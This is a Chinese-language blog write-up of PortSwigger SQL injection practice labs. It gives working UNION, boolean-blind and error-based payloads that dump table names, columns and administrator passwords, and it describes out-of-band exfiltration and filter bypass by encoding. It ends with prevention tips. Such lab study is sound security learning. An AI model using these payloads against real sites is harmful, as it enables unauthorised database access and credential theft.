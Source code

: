 ```yaml
---
title: "PortSwigger SQLi writeup"
published: 2025-01-31T00:00:00.000Z
description: ""
tags: []
category: "general"
draft: false
---
```

## **SQL injection attack, querying the database type and version on MySQL and Microsoft**



1. 開始會需要用到 Burp Suite Repeater 來幫忙轉成 URL Encoding 了（而且也比較方便看 response）
2. 注意註記符號 “—” 有時候要改成 “#” 才能過
3. 曾經試過的幾個payload
    1. Gifts'+UNION+SELECT+@@version,+NULL#
    2. Gifts'%2bUNION%2bSELECT%2b%40%40version%2c%2bNULL%23 (上一個的URL型態)
    3. Gifts' UNION SELECT @@version, 'abc' #
    4. Gifts'%20UNION%20SELECT%20%40%40version%2c%20'abc'%20%23（上一個的URL型態，命中！）

![image](https://hackmd.io/_uploads/SJjoZ4IOyg.png)


結論：”+”不能亂加，然後要試試看 URL型態，而且註記符號要多試試看 ”#”


<!--more-->


## **SQL injection attack, listing the database contents on non-Oracle databases**

> 整體流程：先看information_schema_tables有哪些table，再往下繼續進攻

Payloads
```
%27+UNION+SELECT+table_name,+NULL+from+information_schema.tables--
```
要記得有兩個回傳值！

發現有一個叫做 users_abcdef，繼續探索！
```
%27+UNION+SELECT+column_name,null+from+information_schema.columns+where+table_name=%27users_jvzepp%27--
```
(發現這一題用"+"連接比較能夠執行，然後要注意是用information_schema_columns！)

![image](https://hackmd.io/_uploads/rk3H1uUdJe.png)

往下一層走！
```
%27+UNION+SELECT+username_jxzshr,+password_sdwxli+from+users_oogkho--
```
![image](https://hackmd.io/_uploads/r1oWNYLOJx.png)

結束收工！

p.s 問題點
其實我還是不知道該如何呼叫出這樣的表格
可能會再研究一陣子ww
![image](https://hackmd.io/_uploads/BkJw4K8OJe.png)




## **Blind SQL injection with conditional responses**

```
TrackingId=<那時候的cookie>' AND '1'='1
```
測起來發現welcome back可以作為 Blind SQLi 判斷依據

接著改Tracking ID

`' and (select 'a' from users where username = 'administrator' and length(password)><暴力破解的地方>)='a`

發現這時候welcome back消失(從length觀察最明顯！)
所以密碼是 20 位！
![image](https://hackmd.io/_uploads/HJKLPqUdkx.png)


接下來會用到一個叫做 SUBSTRING() 的函式！
複習一下：`SUBSTRING(字串, 起始位置, 長度)`
```
SUBSTRING('abcd', 2, 1)  -- 取得 'b'
SUBSTRING('abcd', 3, 2)  -- 取得 'cd'
```

接著因為要一個一個測試太麻煩了，再交給intruder做一次！
然後因為我想要同時從第1-20位一個一個檢測a-z,0-9
有兩個位置，所以使用cluster bomb!

`Cookie: TrackingId=1Be9Mx18D4iTRv39' and (select SUBSTRING(password,<位置1>,1) from users where username = 'administrator')='<位置2>;`

最後結果！（可以搭配 View Filter 還有 Payload 1 降冪來協助方便分析）
![image](https://hackmd.io/_uploads/BkAv7sUu1x.png)
組合起來就是 administrator 的密碼了！





## **Blind SQL injection with conditional errors**
> 因為不是要用and了，是另外一個獨立的語句
> 所以在oracle裡面要用 || 連接語法！

順便稍微複習一下 SQL 的 case 用法！
```
SELECT CASE
         WHEN condition1 THEN result1
         WHEN condition2 THEN result2
         ELSE result_default
       END
```
舉例：
```
SELECT name,
       CASE
         WHEN salary < 3000 THEN 'Low'
         WHEN salary BETWEEN 3000 AND 5000 THEN 'Medium'
         ELSE 'High'
       END AS salary_category
FROM employees;
```

![image](https://hackmd.io/_uploads/H1IfNat_Jx.png)

![image](https://hackmd.io/_uploads/rkve4pY_yg.png)

![image](https://hackmd.io/_uploads/HklDJraYO1l.png)

![image](https://hackmd.io/_uploads/ryiqVpKdkl.png)



## **<font color="#b543ff">Visible error-based SQL injection</font>**
> 這一個 Lab 是要去故意製造
> 會顯示線索的錯誤資訊！

<font color="#ff8a38"></font>

`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
要特別注意，因為這一個網站會去限制 TrackingID 的長度，所以一定要把原本的 ID 全部刪掉，直接用 ' 替代，才有足夠的空間留給我們的 payload !

Q: 那為什麼不直接用前一題的 ||(select...... 就好？
A: 雖然可以成功把 payload 送進去，可是系統判讀成功後是會直接顯示商品畫面，而不會有任何密碼顯示，所以才要故意用 1=cast() 去製造錯誤訊息！


![image](https://hackmd.io/_uploads/HJGKsaKO1g.png)

![image](https://hackmd.io/_uploads/ryS3j6Ku1l.png)




## **Blind SQL injection with time delays and information retrieval**
> 跟前面一樣的套路
> 只是記得 resource pool 並行要改一次一個才能看出時間的差距！


![image](https://hackmd.io/_uploads/H1NuJecuyg.png)

![image](https://hackmd.io/_uploads/H18v1xcd1x.png)

![image](https://hackmd.io/_uploads/Byi8Wx5_1l.png)

![image](https://hackmd.io/_uploads/SJFzbg5_1l.png)


## **Blind SQL injection with out-of-band interaction**

> 這題是要透過 DNS Lookup 來完成
> 題目裡有提示說可以翻一下 BurpSuite 他們家的cheat sheet
![image](https://hackmd.io/_uploads/Sk-SvW5_kx.png)
先用Oracle試試看
記得要把 BURP-COLLABORATOR-SUBDOMAIN 改成去到burpsuite的collaborator 裡面 payload copy 的連結！
![image](https://hackmd.io/_uploads/BkjzwWcuJg.png)
看到這個畫面就代表做對了！


## **Blind SQL injection with out-of-band data exfiltration**
上一題的伏筆就在這一題出現了！
我們一樣可以用官方給的 cheat sheet 下手，只是上一題沒討論到query部分這時候就可以上場了！

![image](https://hackmd.io/_uploads/Sk-SvW5_kx.png)

![image](https://hackmd.io/_uploads/S1e42Z5_kx.png)

直接在 query 部分打上我們在前幾個 lab 裡面請求密碼的方法
然後可以順便注意，我們後面緊接著的就是 collaborator payload
所以，
![image](https://hackmd.io/_uploads/BJGm3-qOyg.png)
得到的結果看 payload 之前的前半段就是我們 query 得到的密碼！


## **SQL injection with filter bypass via XML encoding**
> 這一題開始會需要用到 extensions!
> 會用到的叫做hackvertor，可以在 Extensions->BApp Store 裡面直接下載來用

題目有直接說弱點在 check stock 的 post 上（去點一下 check stock 按鈕就會抓到！）

這個 lab 最主要的特點是 Select 這個字眼會被擋掉（會顯示Attack detected擋住），所以才要用 hackvertor 來加密繞過驗證！
然後注意一件事：
如果回傳兩行會一律跳出 0 unit，其實就是代表 error 了
所以要用單行回傳方式（複習一下：用 | |'<連接的符號>'| |）
![image](https://hackmd.io/_uploads/Bkq5kGquye.png)
繞過後就可以順利得到密碼！


## **所以怎麼預防？**
1. 參數化（可是只能用在部分query中，像是table, column, ORDER BY就不適用）
2. 白名單（補救方法）
3. 特製判斷輸入邏輯